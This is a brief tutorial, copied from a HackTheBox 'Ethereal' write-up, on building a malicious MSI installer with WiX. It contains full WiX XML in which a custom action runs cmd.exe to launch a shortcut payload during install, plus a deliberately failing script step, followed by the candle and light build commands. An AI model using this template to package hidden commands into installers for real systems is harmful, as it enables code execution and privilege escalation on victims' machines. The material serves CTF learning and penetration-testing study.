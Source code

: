 # Create MSI with WIX

**Tutorial copied from** [**https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root**](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)\
In order to create the msi we will use [wixtools](http://wixtoolset.org) , you can use other msi builders but they didn’t work for me.\
Check [this page](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with) for some wix msi usage examples.\
We will create an msi that executes our lnk file :

```markup
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">
<ComponentRef Id="ApplicationFiles"/>
</Feature>
<Property Id="cmdline">cmd.exe /C "c:\users\public\desktop\shortcuts\rick.lnk"</Property>
<CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore"
Impersonate="yes"/>
<CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
fail_here
</CustomAction>
<InstallExecuteSequence>
<Custom Action="Stage1" After="InstallInitialize"></Custom>
<Custom Action="Stage2" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
</Product>
</Wix>
```

We will use `candle.exe` from wixtools to create a wixobject from `msi.xml`

```markup
candle.exe -out C:\tem\wix C:\tmp\Ethereal\msi.xml
```

![.gitbook/assets/1664530487_9959.png](https://0xrick.github.io/images/hackthebox/ethereal/65.png)

Then we will use `light.exe` to create the msi file from the wixobject:

```markup
light.exe -out C:\tm\Ethereal\rick.msi C:\tmp\wix
```

![.gitbook/assets/1664530487_9959.png](https://0xrick.github.io/images/hackthebox/ethereal/66.png)
